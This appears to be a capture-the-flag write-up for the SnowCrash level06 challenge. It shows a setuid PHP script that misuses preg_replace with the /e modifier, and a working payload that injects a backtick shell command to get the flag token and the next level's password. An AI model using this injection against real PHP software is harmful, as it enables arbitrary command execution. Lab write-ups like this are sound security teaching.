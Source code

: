 # level06

- We login as user level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- A binary as well as a PHP script are present, the binary appears to execute the PHP script. Here is the content of the script:
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- The script makes calls to `preg_replace()` to format the content of the file given to it as first parameter before displaying it.
The line of interest to us is the following:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- This line states that if the content of the file starts with `[x` and ends with `]`, everything located between these boundaries can be executed as PHP code (due to `/e`). The output of this execution will then be passed as a parameter to the `y()` function, so:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]

level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```